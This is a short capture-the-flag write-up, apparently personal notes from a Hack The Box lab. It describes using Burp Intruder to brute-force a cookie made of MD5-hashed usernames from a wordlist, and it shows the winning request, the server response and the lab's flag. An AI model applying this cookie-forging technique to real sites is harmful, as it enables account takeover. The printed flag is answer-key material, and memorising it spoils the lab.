 1) add cookie parameter as payload  (cookie=$ $ )
2) select attack: sniper attack , payload type: simple list
3) load '/usr/share/seclists/Usernames/top-usernames-shortlist.txt'
4) in payload processing set this flow ==string > MD5 Hash  > cookie== 

![[Screenshot From 2025-04-06 14-22-49.png]]
![[Screenshot From 2025-04-06 12-33-21.png]]

then start the attack ,

Note :
you can click on "View filter" and type in 'HTB' , to find which request have the flag : HTB{fuzz1n6_my_f1r57_c00k13} ![[Screenshot From 2025-04-06 14-25-43.png]]
 
 this cookie `cookie=ee11cbb19052e40b07aac0ca060c23ee` will get the flag
![[Screenshot From 2025-04-06 14-18-15.png]]


```
GET /skills/ HTTP/1.1
Host: 94.237.63.165:57248
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: cookie=ee11cbb19052e40b07aac0ca060c23ee
Connection: keep-alive


```

```
HTTP/1.1 200 OK
Date: Sun, 06 Apr 2025 08:52:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: cookie=084e0343a0486ff05530df6c705c8bb4
Vary: Accept-Encoding
Content-Length: 450
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <title>Welcome</title>

</head>

<body style="background-color: #141d2b; font-family: sans-serif; color: white;">
    <center>
                    <div class='control'>
                <h1>
                    Welcome Back user
                </h1>
            </div>
            <br><br>
            HTB{fuzz1n6_my_f1r57_c00k13}
```